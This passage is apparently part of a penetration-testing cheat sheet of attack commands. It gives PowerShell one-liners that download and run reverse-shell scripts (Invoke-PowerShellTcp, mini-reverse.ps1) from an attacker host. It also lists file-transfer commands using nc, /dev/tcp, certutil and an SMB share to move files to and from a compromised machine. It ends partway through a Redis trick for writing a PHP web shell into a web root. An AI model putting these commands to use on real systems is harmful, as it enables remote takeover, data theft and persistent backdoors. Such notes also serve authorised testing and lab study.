 - Powershell
	- [Invoke-PowerShellTcp](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1)
	- `powershell iex (New-Object Net.WebClient).DownloadString('http://{my_ip}:{http_port}/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress {my_ip} -Port {shell_port}`
    - [mini-reverse.ps1](https://gist.github.com/Serizao/6a63f35715a8219be6b97da3e51567e7/raw/f4283f758fb720c2fe263b8f7696b896c9984fcf/mini-reverse.ps1)
        - `powershell IEX (New-Object Net.WebClient).DownloadString('http://10.1.1.246/mini-reverse.ps1')`
### File Transmission - Linux
- SCP
- HTTP
	- Prepare
		- `python3 -m http.server`
			- use `sudo` to `get` 80 port
	- GET
		- `wget {my_ip}:{port}/{file_name} -O {path_to_output}`
		- `curl -o {path_to_output} http`
- NC
	- Prepare
		- `nc -l -p {attacker_port} > {file}`
	- Send
		- `nc {attacker_ip} {attacker_port} < {file}`
		- `cat {file} > /dev/tcp/{ip}/{port}`
    - TCP
        - `nc -q 5 -nlvp {Port} < {file}`
        - `cat<'/dev/tcp/{IP}/{Port}' > {file}`
- FTP
    - `python3 -m pyftpdlib -p 21 -w`
### File Transmission - Windows
- HTTP
	- Prepare
		- `python3 -m http.server`
	- GET (Powershell)
		- `wget` , `curl` , `iwr` is alias for `Invoke-WebRequest`
			- `Invoke-WebRequest http://{my_ip}:{my_port}/{file} -outFile {file_name}`
			    - `-UseBasicParsing`
        - `certutil -urlcache -f {URL} {File_name}`
- SMB
	- `impacket-smbserver meow .`
		- In Kali
		- `-smb2support`
	- `copy \\{IP}\meow\{filename} {filename}`
		- In Windows
    - `net view {IP}`
        - Show shares
- Pack file
	- cab
		- `lcab -r {dir} {file.cab}`
			- In kali
		- `expand {file.cab} -F:* {Extract path}`
			- Extract path must be absolute path like `C:\Windows\Temp`
- https://blog.ropnop.com/transferring-files-from-kali-to-windows/
## Server
### Redis
- Write shell / file
	- `redis-cli -h {ip} `
		- Connect
	- `config set dir "/var/www/html"`
		- Set dir
	- `config set dbfilename meow.php`
